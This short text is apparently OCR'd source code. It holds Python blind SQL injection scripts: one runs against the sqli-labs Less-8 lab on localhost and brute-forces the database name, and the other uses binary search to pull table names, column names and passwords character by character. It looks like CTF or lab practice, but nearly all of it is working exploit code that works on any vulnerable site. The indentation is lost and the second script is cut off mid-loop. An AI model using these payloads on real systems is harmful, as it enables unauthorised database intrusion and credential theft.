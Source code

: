 ```plain
print chr(int(i))
---------------------------------------------------
import requests
def database_len():
for i in range(1,10):
url = '''http://127.0.0.1/sqli-labs-master/Less-8/index.php'''
payload = '''?id=1' and length(database())>%s''' %i
# print(url+payload+'%23')
r = requests.get(url+payload+'%23')
if 'You are in' in r.text:
print(i)

else:
#print('false')
print('database_length:',i)
break
database_len()

def database_name():
name = ''
for j in range(1,9):
for i in 'sqcwertyuioplkjhgfdazxvbnm':
url = "http://127.0.0.1/sqli-labs-master/Less-8/index.php?id=1' and substr(database(),%d,1)='%s'" %(j,i)
# print(url+'%23')
r = requests.get(url+'%23')
if 'You are in' in r.text:
name = name+i

print(name)

break
print('database_name:',name)



database_name()

```



```plain
import time
import requests
url = ""
result = ''
i = 0
while True:
i = i + 1
head = 32
tail = 127
while head < tail:
mid = (head + tail) >> 1
# payload = '(ascii(substr(database(),%d,1))>%d)' % (i, mid)
# payload = f'(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),{i},1))>{mid})'
# payload = f'(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name="F1naI1y")),{i},1))>{mid})'
payload = f'(ascii(substr((select(group_concat(password))from(F1naI1y)),{i},1))>{mid})'
r = requests.get(url + payload)
# print(r.text)
time.sleep(0.1)
if "Click" in r.text:
```